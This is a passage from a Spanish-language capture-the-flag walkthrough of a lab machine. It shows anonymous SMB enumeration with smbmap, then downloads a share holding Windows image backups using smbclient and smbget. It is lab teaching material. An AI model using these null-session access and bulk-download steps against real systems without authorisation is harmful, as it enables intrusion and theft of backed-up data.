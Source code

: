 ***(También funciona así:***

```bash
❱ smbmap -H 10.10.10.134 -u 'null' -p 'null'
```

***)***

Bien, vemos 4 recursos, pero solo tenemos acceso de lectura a 2 de ellos: `Backups` y `IPC$`, para ver el contenido de esos directorios nos apoyamos de la herramienta [smbclient](https://jcsis.wordpress.com/2011/08/26/acceder-a-recurso-compartido-desde-un-terminal-linux-con-smbclient/), empecemos por `Backups`:

```bash
❱ smbclient //10.10.10.134/Backups -U ''
Enter WORKGROUP\'s password: 
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Tue Apr 16 05:02:11 2019
  ..                                  D        0  Tue Apr 16 05:02:11 2019
  note.txt                           AR      116  Tue Apr 16 05:10:09 2019
  SDT65CB.tmp                         A        0  Fri Feb 22 07:43:08 2019
  WindowsImageBackup                 Dn        0  Fri Feb 22 07:44:02 2019

                7735807 blocks of size 4096. 2752055 blocks available
smb: \> 
```

Opa, vemos algunos archivos y un directorio, para trabajar cómodos vamos a descargarnos todo el directorio **Backups** a nuestro sistema, lo podemos hacer también con **smbclient**:

```bash
smb: \> prompt off
smb: \> recurse on
smb: \> mget *
getting file \note.txt of size 116 as note.txt (0,3 KiloBytes/sec) (average 0,3 KiloBytes/sec)
getting file \SDT65CB.tmp of size 0 as SDT65CB.tmp (0,0 KiloBytes/sec) (average 0,2 KiloBytes/sec)
getting file \WindowsImageBackup\L4mpje-PC\MediaId of size 16 as WindowsImageBackup/L4mpje-PC/MediaId (0,0 KiloBytes/sec) (average 0,1 KiloBytes/sec)
```

Pero se queda ahí un rato, para ver el tamaño de lo que estamos descargando podemos usar [smbget](https://www.linuxito.com/gnu-linux/nivel-medio/1315-descargar-archivos-desde-un-servidor-samba-con-smbget) que también nos permite descargar directorios compartidos mediante *samba*:

```bash
❱ smbget -R smb://10.10.10.134/Backups -U ''
Password for [] connecting to //Backups/10.10.10.134: 
Using workgroup WORKGROUP, guest user
smb://10.10.10.134/Backups/note.txt
smb://10.10.10.134/Backups/SDT65CB.tmp
smb://10.10.10.134/Backups/WindowsImageBackup/L4mpje-PC/Backup 2019-02-22 124351/9b9cfbc3-369e-11e9-a17c-806e6f6e6963.vhd
[WindowsImageBackup/L4mpje-PC/Backup 2019-02-22 124351/9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd] 2,50MB of 5,05GB ...
```
